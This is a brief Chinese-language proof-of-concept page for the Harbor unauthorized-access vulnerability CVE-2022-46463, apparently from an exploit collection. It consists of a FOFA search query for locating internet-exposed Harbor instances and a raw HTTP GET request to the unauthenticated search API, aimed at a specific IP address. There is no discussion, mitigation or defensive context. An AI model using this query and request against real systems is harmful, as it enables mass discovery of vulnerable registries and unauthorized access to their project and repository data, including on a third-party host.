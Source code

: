 # Harbor未授权访问漏洞(cve-2022-46463)

    ## fofa

```
app="HARBOR"
```

## poc

```
GET /api/v2.0/search?q=/ HTTP/1.1
Host: 122.114.245.33
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip

```
